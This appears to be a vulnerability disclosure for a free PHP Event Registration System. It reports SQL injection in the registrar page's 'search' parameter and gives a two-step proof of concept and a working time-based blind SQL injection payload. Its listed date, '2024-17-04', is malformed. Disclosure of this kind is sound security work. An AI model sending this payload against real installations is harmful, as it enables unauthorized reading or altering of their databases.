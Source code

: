 # Event Registration System - SQL Injection - 4
+ **Exploit Title:** Event Registration System - SQL Injection - 4
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/14884/event-registration-system-qr-code-php-free-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=14884&title=Event+Registration+System+with+QR+Code+in+PHP+Free+Source+Code
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Event Registration System allows SQL Injection via the 'search' parameter at "http://localhost/event/registrar/". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event/registrar/"
+ Write something random in the search bar

## Payload :
```
test' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
```

![Ekran görüntüsü 2024-05-18 145421](https://github.com/BurakSevben/CVEs/assets/117217689/7bcfd832-11b6-4e5a-a973-dc65cc3acf90)


           

